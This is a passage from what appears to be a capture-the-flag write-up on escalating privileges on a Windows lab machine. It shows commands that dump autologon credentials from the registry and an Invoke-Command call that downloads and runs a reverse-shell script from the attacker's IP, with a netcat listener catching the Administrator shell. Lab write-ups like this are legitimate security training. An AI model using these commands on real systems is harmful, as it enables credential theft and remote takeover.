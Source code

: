 ## Privesc: iusr -\> Administrator

### Creds in Winlogon

Walking through some [standard Windows privesc
checks](https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/),
I eventually found default credentials stored in the registry for
autologon. When I queried that out of the nishang shell, I didn't find
the password. See section at end about trouble shooting this.

To get it to work, uploaded nc64.exe, and got a fresh 64bit shell, and I
was able to dump credentials from the registry:



    C:\inetpub\wwwroot\internal-01\log>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
        DefaultDomainName    REG_SZ    DESKTOP-7I3S68E
        DefaultUserName    REG_SZ    Administrator
        DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb



### Using Credentials to Get administrator Access

There a several different ways to use these credentials to get access to
administrator files (such as the flag). I'll show two, `run_as` and
`net use`:

#### powershell "run as"

Use the password to create a credential that can be passed to
`Invoke-Command`. In this case, `shell.ps1` is another
`Invoke-PowerShellTcp.ps1` with the port changed to 5555:



    PS C:\inetpub\wwwroot\internal-01\log> $username = "BART\Administrator"
    PS C:\inetpub\wwwroot\internal-01\log> $password = "3130438f31186fbaf962f407711faddb"
    PS C:\inetpub\wwwroot\internal-01\log> $secstr = New-Object -TypeName System.Security.SecureString
    PS C:\inetpub\wwwroot\internal-01\log> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
    PS C:\inetpub\wwwroot\internal-01\log> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
    PS C:\inetpub\wwwroot\internal-01\log> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/shell.ps1') } -Credential $cred -Computer localhost





    root@kali# nc -lnvp 5555
    listening on [any] 5555 ...
    connect to [10.10.15.48] from (UNKNOWN) [10.10.10.81] 50593
    Windows PowerShell running as user Administrator on BART
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
